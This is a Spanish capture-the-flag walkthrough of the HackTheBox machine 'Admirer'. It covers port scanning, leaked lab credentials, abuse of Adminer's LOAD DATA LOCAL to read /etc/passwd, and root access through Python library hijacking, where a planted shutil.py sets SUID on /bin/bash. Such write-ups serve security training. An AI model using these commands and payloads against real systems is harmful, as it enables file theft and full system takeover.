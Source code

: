 ------
- Tags: #path-hijacking #library-hijacking #python3 #adminer #information-leakage #mysql
------
## Técnicas utilizadas
- Information Leakage  
- Admirer Exploitation (Abusing LOAD DATA LOCAL Query)
- Abusing Sudoers Privilege [Library Hijacking - Python] (Privilege Escalation)
## Procedimiento

![[Pasted image 20230720140513.png]]

-------
#### Reconocimiento
Si lanzamos un **nmap** contra la maquina, podemos ver los siguientes puertos abiertos:
```ruby
# nmap -sCV -p21,22,80 10.10.10.187 -oN Ports
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-21 10:35 MST
Nmap scan report for 10.10.10.187
Host is up (0.19s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u7 (protocol 2.0)
| ssh-hostkey: 
|   2048 4a71e92163699dcbdd84021a2397e1b9 (RSA)
|   256 c595b6214d46a425557a873e19a8e702 (ECDSA)
|_  256 d02dddd05c42f87b315abe57c4a9a756 (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
| http-robots.txt: 1 disallowed entry 
|_/admin-dir
|_http-title: Admirer
|_http-server-header: Apache/2.4.25 (Debian)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.12 seconds
```

Un escaneo con **whatweb** nos muestra estas tecnologías web corriendo por detrás:
```ruby
# whatweb 10.10.10.187
http://10.10.10.187 [200 OK] Apache[2.4.25], Country[RESERVED][ZZ], HTML5, HTTPServer[Debian Linux][Apache/2.4.25 (Debian)], IP[10.10.10.187], JQuery, Script, Title[Admirer]
```

---------
#### Information Leakage  
Fuzzeando por directorios y archivos con herramientas como **Gobuster** y **Wfuzz** podemos llegar a dar con información sensible, esta corresponden a correos. Además, vemos que en los correos se filtra un posible  nombre de dominio:
```
##########
# admins #
##########
# Penny
Email: p.wise@admirer.htb


##############
# developers #
##############
# Rajesh
Email: r.nayyar@admirer.htb

# Amy
Email: a.bialik@admirer.htb

# Leonard
Email: l.galecki@admirer.htb



#############
# designers #
#############
# Howard
Email: h.helberg@admirer.htb

# Bernadette
Email: b.rauch@admirer.htb
```

Llama la atencion que haya descubierto un **.txt**, lo que podemos hacer es crear un diccionario apartir del **directory-list.2.3-medium.txt** para coger ciertas palabras que nos interesen:
```
# grep -iE "user|name|key|secret|cred|pass"
```

Ahora, si hacemos un escaneo denuevo sobre archivos, encontramos un archivo que parece contener potenciales credenciales:
```
[Internal mail account]
w.cooper@admirer.htb
fgJr6q#S\W:$P

[FTP account]
ftpuser
%n?4Wz}R$tTF7

[Wordpress account]
admin
w0rdpr3ss01!
```

Con credenciales para el servicio **FTP** intentaremos enumerar que recursos se estan compartiendo a nivel de red:
```
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0            3405 Dec 02  2019 dump.sql
-rw-r--r--    1 0        0         5270987 Dec 03  2019 html.tar.gz
226 Directory send OK.
```

Descargamos el comprimido en nuestra maquina y observamos que basicamente es una versión antigua de lo que es ahora la pagina web. Dentro de la carpeta **Utility-Scripts** podemos encontrar un **PHPInfo** que es de gran utilizadad ya que nos dice que funciones podemos utilizar y cuales no:
![[Pasted image 20230721122952.png]]

Dentro de la carpeta también encontramos un archivo que contiene potenciales credenciales para conectarnos a una posible base de datos ( recordemos que **adminer** es un gestor de base de datos ). Como sabemos que adminer es un gestor de base de datos, podemos intuir que posiblemente exista el tipico archivo **adminer.php** asi que si lo colocamos en el buscador podremos visualizar el panel de inicio de sesión de **adminer**:
![[Pasted image 20230721123223.png]]

Las credenciales que encontramos antes son invalidas para iniciar sesión.

-----------
#### Admirer Exploitation (Abusing LOAD DATA LOCAL Query)
Buscando por vulnerabilidades para **adminer** encontramos una que nos permite leer información de la base de datos a partir de conectarnos a nuestra propia base de datos ( WTF ), este [articulo](https://www.foregenix.com/blog/serious-vulnerability-discovered-in-adminer-tool) lo explica más detalladamente.

Basicamente tenemos que crear una base de datos de manera local con nombre **adminerdb**:
```
mysql> create database adminerdb;
```

Ahora tenemos que crear un usuario con todos los privilegios existentes para si autenticarnos contra nuestra maquina:
```
mysql> create user 'sexcott'@'10.10.10.187' identified by 'sexcott';
mysql> GRANT ALL on adminerdb.* to 'sexcott'@'10.10.10.187';
```

Lo que haremos ahora es crear una tabla:
```
mysql> create table data(output varchar(1024));
```

En esta tabla se almacenara el **output** del archivo que deseemos leer de la maquina victima. Ahora simplemente en el apartado de **SQL command** tenemos que colocar la siguiente query:
```
load data local infile "/etc/passwd"
into table adminerdb.data
```

Cabe mencionar que no podemos leer todos los archivos de la maquina, dato que no tenemos permiso de lectura sobre algunos archivos tipicos. Si intentamos leer lo que hay en el **Index.php** del aplicativo web, nos damos cuenta que la contraseña para conectarse a la **Base de datos** es diferente a la que tenemos. Pues con estas credenciales podriamos conectarnos por **SSH** sin problemas:
```
$servername = "localhost";            
$username = "waldo";                  
$password = "&<h5b~yK3F#{PaPB&dA}{H>";
$dbname = "admirerdb";                
```

----------------
#### Abusing Sudoers Privilege [Library Hijacking - Python] (Privilege Escalation)
Dentro de la maquina vemos un script personalizado (el cual tenemos privilegios de sudoers para asignarle un path) . En este, hay una porcion de codigo que nos indica que se ejecuta un script de **python** si elegimos determinada opcion:
![[Pasted image 20230721130057.png]]

Si analizamos el codigo en python, nos percatamos que podriamos secuestrar una **Libreria** para ejecutar codigo arbitrario. Para acontecer esto, podemos modificar el **PATH** de **Python**:
```
# export PYTHONPATH="/tmp"
```

En **tmp** ahora crearemos un script en **Python** con nombre **shutil.py** para colocar el codigo que deseemos ejecutar:
```
import os
os.system("chmod u+s /bin/bash")
```

Nos queda solo modificar el **PATH** de **root** de la siguiente manera:
```
sudo PYTHONPATH=/tmp /opt/scripts/admin_task.sh
```

Lo ejecutamos y listando los privilegios de la **Bash** podemos ver que es **SUID** 

